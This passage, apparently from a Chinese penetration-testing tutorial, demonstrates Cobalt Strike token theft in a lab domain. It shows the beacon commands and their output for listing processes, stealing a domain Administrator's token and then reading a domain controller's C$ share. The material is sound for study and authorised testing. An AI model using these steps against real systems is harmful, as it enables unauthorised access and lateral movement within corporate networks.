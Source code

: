 _以下是令牌窃取的过程：_

- 使用 ps 列出进程
- 使用 steal_token [pid] 窃取令牌
- 使用 getuid 找到你是谁
- 使用 rev2self 移除令牌

接下来将对这些命令进行演示，目前有一个 SYSTEM 权限的会话，该会话在 WIN-72A8ERDSF2P 主机下，此时想查看 WIN-P2AASSD1AF1 主机下的文件（WIN-P2AASSD1AF1 主机是 TEAMSSIX 域的域控制器），那么直接运行 dir 会提示拒绝访问。

```powershell
beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
```

此时，先用 ps 查看一下当前系统进程信息。

```powershell
beacon> ps
[*] Tasked beacon to list processes
[+] host called home, sent: 12 bytes
[*] Process List
 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 0     0     [System Process]                               
 4     0     System                       x64   0           NT AUTHORITY\SYSTEM
……内容太多，此处省略……
 3720  524   taskhost.exe                 x64   2           WIN-72A8ERDSF2P\Administrator
 4092  236   dwm.exe                      x64   3           TEAMSSIX\Administrator
```

通过进程信息可以发现 TEAMSSIX 域下的管理员账户此时在当前 SYSTEM 会话的主机上是登录着的，使用 steal_token [pid] 命令窃取 TEAMSSIX\Administrator 账户的令牌

```powershell
beacon> steal_token 4092
[*] Tasked beacon to steal token from PID 4092
[+] host called home, sent: 12 bytes
[+] Impersonated TEAMSSIX\administrator
```

查看一下当前会话 uid

```powershell
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are TEAMSSIX\administrator (admin)
```

再次尝试获取域控制器主机下的文件

```powershell
beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WIN-P2AASSD1AF1\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WIN-P2AASSD1AF1\C$ 的目录
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件      0 字节
               4 个目录 28,493,299,712 可用字节
```
